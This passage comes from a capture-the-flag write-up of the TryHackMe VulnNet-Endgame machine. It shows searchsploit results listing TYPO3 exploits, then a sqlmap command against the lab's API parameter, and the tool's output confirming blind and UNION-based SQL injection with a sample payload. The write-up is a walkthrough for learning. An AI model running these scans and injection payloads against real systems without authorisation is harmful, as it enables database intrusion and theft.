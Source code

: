```
Typo3 4.5 < 4.7 - Remote Code Execution / Local File Inclusion / Remote File Incl | php/webapps/18308.txt
TYPO3 < 4.0.12/4.1.10/4.2.6 - 'jumpUrl' Remote File Disclosure                    | php/webapps/8038.py
TYPO3 CMS 4.0 - 'showUid' SQL Injection                                           | php/webapps/9380.txt
Typo3 CMW_Linklist 1.4.1 Extension - SQL Injection                                | php/webapps/25186.txt
TYPO3 Extension Akronymmanager 0.5.0 - SQL Injection                              | php/webapps/37301.txt
Typo3 Extension JobControl 2.14.0 - Cross-Site Scripting / SQL Injection          | php/webapps/34800.txt
TYPO3 Extension ke DomPDF - Remote Code Execution                                 | php/webapps/35443.txt
TYPO3 Extension News - SQL Injection                                              | php/webapps/41940.py
TYPO3 Extension Restler 1.7.0 - Local File Disclosure                             | php/webapps/42985.txt
---------------------------------------------------------------------------------- ---------------------------------
```

But we couldn't find the `typo3` version of this machine...

Let's take a step back, and I was missing one critical thing.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a10.png)

When I send a **GET request to `blog.vulnnet.thm/post1.php`, it also uses an API to fetch a blog.**

**http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a11.png)

Hmm... Let's test for Local File Inclusion?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a12.png)

Nope. 

How about **SQL injection**?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbs                             
[...]
[00:40:33] [INFO] GET parameter 'blog' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[00:40:40] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[...]
[00:43:35] [INFO] GET parameter 'blog' appears to be 'MySQL >= 5.0.12 OR time-based blind (SLEEP)' injectable
[...]
[00:44:02] [INFO] GET parameter 'blog' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'blog' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 79 HTTP(s) requests:
---
Parameter: blog (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: blog=1 AND 9729=9729
```